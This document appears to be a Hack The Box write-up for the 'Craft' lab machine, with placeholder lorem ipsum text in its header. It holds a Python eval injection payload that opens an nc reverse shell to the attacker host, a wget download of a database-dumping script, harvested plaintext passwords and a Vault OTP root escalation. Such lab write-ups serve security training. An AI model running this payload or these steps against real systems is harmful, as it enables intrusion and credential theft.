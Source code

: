 ```yaml
---
layout: single
title: Craft - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-10-13
classes: wide
header:
  teaser: /assets/images/htb-writeup-craft/craft_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-craft/craft_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n 10.10.10.110
    22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
    443/tcp open  ssl/http nginx 1.15.8
    6022/tcp open x11

2. Access HTTPS and look around, notice that gogs.craft.htb and api.craft.htb is not reachable (icons in top right corner of the page).
   Add the URLs in /etc/hosts:
    10.10.10.110  gogs.craft.htb api.craft.htb

3. Look around on gogs.craft.htb and you can find a test script by Dinesh, containing his username and password (dinesh:4aUh0A8PbVJxgd)
    https://gogs.craft.htb/Craft/craft-api/commit/10e3ba4f0a09c778d7cec673f28d410b73455a86

    Using these credentials we can get a token from the API (https://api.craft.htb/api/) or using curl.
      API: https://api.craft.htb/api/

      CURL: curl -k -u dinesh:4aUh0A8PbVJxgd https://api.craft.htb/api/auth/login
        {"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcwNjA5ODM0fQ.WRjbAWd7WEpOhoL34hSlGmA92c2bCtYmboNKPG1Oie8"}

4. With the credentials and token, we now have a way to POST/PUT information onto the server, now we need to find a way to exploit this.
   Login as Dinesh on gogs.craft.htb, add your SSH-key and download the repository. Looking through the files we can find the Source Code for brew.py.
   Looking through brew.py we can find that they use a eval-function for input validation of 'abv', this makes it vulnerable for Code Injection.

   NOTE: You don't need to download the files, they can also be viewed directly on gogs.craft.htb, but I think it's easier to download

   # make sure the ABV value is sane.
   if eval('%s > 1' % request.json['abv']):
       return "ABV must be a decimal value less than 1.0", 400
   else:
       create_brew(request.json)
       return None, 201

5. Exploit the abv eval-function.
   Start netcat and send a POST through the API. Capture it in burp and edit the request by adding a valid token (created by Dinesh) and inject desired code in the abv-field.

      POST /api/brew/ HTTP/1.1
      Host: api.craft.htb
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
      Accept: application/json
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: https://api.craft.htb/api/
      content-type: application/json
      origin: https://api.craft.htb
      Content-Length: 96
      Connection: close
      X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcxMTMzMDkwfQ.m2NfNIDs-bqUcuqRzYXITIQ5lWXHtENnijqLiIcMgMQ

      {
        "id": 2352,
        "brewer": "string",
        "name": "string",
        "style": "string",
        "abv": "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4488 >/tmp/f')"
      }

      root@p3:/opt/htb/machines/craft# nc -lvnp 4488
        listening on [any] 4488 ...
        connect to [10.10.14.12] from (UNKNOWN) [10.10.10.110] 42163
        /bin/sh: can't access tty; job control turned off
        /opt/app #

6. At first glance you are user root, but you can't access any flags, seems like we are in a docker and need to break out.
   Looking through the scripts and .gitignore there are a lot of references to settings.py, looking in that file we find a db user and password. (craft:qLGockJ6G2J75O)
   The script dbtest.py calls settings.py to get information from the database brew. In craft_api/api/database/models.py we can find a second database, User.
   Download dbtest.py and edit to call user database. Notice that we also need to change result from cursor.fetchone() to cursor.fetchall() to get all info within the database.

   root@p3:/opt/htb/machines/craft/craft-api# cat exp-db.py
     #!/usr/bin/env python

     import pymysql
     from craft_api import settings

     # test connection to mysql database

     connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                  user=settings.MYSQL_DATABASE_USER,
                                  password=settings.MYSQL_DATABASE_PASSWORD,
                                  db=settings.MYSQL_DATABASE_DB,
                                  cursorclass=pymysql.cursors.DictCursor)

     try:
         with connection.cursor() as cursor:
             sql = "SELECT `id`, `username`, `password` FROM `user`"
             cursor.execute(sql)
             result = cursor.fetchall()
             print(result)

     finally:
         connection.close()

  root@p3:/opt/htb/machines/craft/craft-api# python3 -m http.server 8888

  /opt/app # wget http://10.10.14.12:8888/exp-db.py
    Connecting to 10.10.14.12:8888 (10.10.14.12:8888)
    exp-db.py            100% |********************************|   664  0:00:00 ETA

  /opt/app # chmod +x exp-db.py
  /opt/app # python exp-db.py
    [{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]

7. Gilfoyle reuses his credentials for gogs.craft.htb, login to his account and you'll find his public and private SSH-keys. Download the private key, give it chmod 600, and SSH with same creds again.

    root@p3:/opt/htb/machines/craft# ssh gilfoyle@10.10.10.110 -i id_rsa-gilf

      .   *   ..  . *  *
      *  * @()Ooc()*   o  .
      (Q@*0CG*O()  ___
      |\_________/|/ _ \
      |  |  |  |  | / | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | \_| |
      |  |  |  |  |\___/
      |\_|__|__|_/|
      \_________/

      Enter passphrase for key 'id_rsa-gilf':
      Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

      The programs included with the Debian GNU/Linux system are free software;
      the exact distribution terms for each program are described in the
      individual files in /usr/share/doc/*/copyright.

      Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
      permitted by applicable law.
      Last login: Mon Oct 14 07:18:13 2019 from 10.10.14.21
    gilfoyle@craft:~$

8. Grab user-flag.
    gilfoyle@craft:~$ cat /home/gilfoyle/user.txt
      bbf4****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Login with Gilfoyle's creds on gogs.craft.htb, in the repo craft-infra you'll find a folder named vault and within it secrets.sh
    Vault is used to provide one-time passwords (OTP) for SSH login, I google'd 'vault ssh' and the first link I found explains how to request a OTP.
    https://learn.hashicorp.com/vault/secrets-management/sm-ssh-otp#step-3-request-an-otp

    In their example they write:
      vault write ssh/creds/otp_key_role ip=<REMOTE_HOST_IP>

    Trying this gives us an error: * Role "otp_key_role" not found
    Looking at secrets.sh we find that the 'vault write'-string ends with root_otp, lets try that instead:
      gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=10.10.10.110
      Key                Value
      ---                -----
      lease_id           ssh/creds/root_otp/bdbe45d6-24b0-6a02-8534-d37bbb3f54c5
      lease_duration     768h
      lease_renewable    false
      ip                 10.10.10.110
      key                1762e6a1-f975-61f8-814e-f7d65a2a1f51
      key_type           otp
      port               22
      username           root

    NOTE: The key value is the OTP to use during SSH authentication.

2. SSH with the OTP-creds generated and grab root.txt.
    root@p3:/opt/htb/machines/craft# ssh root@10.10.10.110
    root@craft:~# cat root.txt
      831d****************************
